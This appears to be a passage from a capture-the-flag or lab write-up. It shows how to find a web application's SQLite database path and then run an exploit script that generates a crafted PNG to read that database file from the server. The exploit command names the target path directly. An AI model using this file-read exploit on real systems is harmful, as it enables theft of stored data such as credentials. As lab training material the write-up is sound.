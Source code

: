 ![](/img2/Pasted%20image%2020250602145242.png)

- Get sqlite file

```bash
cat index.php | grep db
```

![](/img2/Pasted%20image%2020250602174227.png)

```bash
python3 exploit.py generate -o poc.png -r /var/db/pilgrimage
```

![](/img2/Pasted%20image%2020250602174312.png)

